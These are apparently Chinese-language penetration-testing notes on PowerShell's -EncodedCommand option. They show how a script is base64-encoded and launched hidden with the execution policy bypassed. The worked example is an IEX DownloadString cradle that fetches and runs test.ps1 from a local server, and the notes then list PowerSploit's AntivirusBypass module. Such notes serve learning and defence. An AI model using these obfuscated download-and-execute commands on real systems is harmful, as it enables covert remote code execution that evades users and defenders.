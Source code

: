 `-EncodedCommand`  ：接受以 base-64 编码的字符串命令。**如果直接base64编码命令，会乱码**

- ```cmd
    PS C:\Users\lambo\Downloads> powershell -Nop -NonI -w hidden -exec bypass -enc SUVYKE5ldy1PYmplY3QgU3lzdGVtLk5ldC5XZWJjbGllbnQpLkRvd25sb2FkU3RyaW5nKCdodHRwOi8vMTI3LjAuMC4xOjgwMDAvdGVzdC5wczEnKQ==
    䕉⡘敎⵷扏敪瑣匠獹整⹭敎⹴敗换楬湥⥴䐮睯汮慯卤牴湩⡧栧瑴㩰⼯㈱⸷⸰⸰㨱〸〰琯獥⹴獰✱�
    : 无法将“䕉⡘敎⵷扏敪瑣匠獹整⹭敎⹴敗换楬湥⥴䐮睯汮慯卤牴湩⡧栧瑴㩰⼯㈱⸷⸰⸰㨱〸 〰
    琯獥⹴獰✱�”项识别为 cmdlet、函数、脚本文件或可运行程序的名称。请检查名称
    的拼写，如果包括路径，请确保路径正确，然后再试一次。
    所在位置 行:1 字符: 1
    
    base64字符串是IEX(New-Object System.Net.Webclient).DownloadString('http://127.0.0.1:8000/test.ps1')
    ```

**使用powershell来base64加密**

- ```powershell
    $fileContent= “所要编码的脚本内容”
    $bytes= [System.Text.Encoding]::Unicode.GetBytes($fileContent)
    $encodedCommand= [Convert]::ToBase64String($bytes)
    echo $encodedCommand
    编码后的脚本可以通过如下命令解析执行
    powershell -enc $encodedCommand
    ```

- ```cmd
    (base) PS C:\Users\lambo\Downloads> $fileContent="IEX(New-Object System.Net.Webclient).DownloadString('http://127.0.0.1:8000/test.ps1')"
    (base) PS C:\Users\lambo\Downloads> $bytes= [System.Text.Encoding]::Unicode.GetBytes($fileContent)
    (base) PS C:\Users\lambo\Downloads> $encodedCommand= [Convert]::ToBase64String($bytes)
    (base) PS C:\Users\lambo\Downloads> echo $encodedCommand
    SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAGMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAyADcALgAwAC4AMAAuADEAOgA4ADAAMAAwAC8AdABlAHMAdAAuAHAAcwAxACcAKQA=
    (base) PS C:\Users\lambo\Downloads>
    ```

- 然后`powershell -Nop -NonI -w hidden -exec bypass -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAGMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAyADcALgAwAC4AMAAuADEAOgA4ADAAMAAwAC8AdABlAHMAdAAuAHAAcwAxACcAKQA=`执行成功

**或者使用ps-encoder.py脚本编码.ps1文件**

## powershell模块

在大型的Powershell项目下，通常会有 .ps1 、.psd1 和 .psm1 几种后缀的文件。如PowerSploit工具

```cmd
(base) PS D:\pentest_tool\5.内网渗透\PowerSploit-3.0.0\AntivirusBypass> ls


    目录: D:\pentest_tool\5.内网渗透\PowerSploit-3.0.0\AntivirusBypass


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
------        2015/12/19      8:33            844 AntivirusBypass.psd1
------        2015/12/19      8:33             67 AntivirusBypass.psm1
------        2015/12/19      8:33           6583 Find-AVSignature.ps1
------        2015/12/19      8:33            776 Usage.md
```
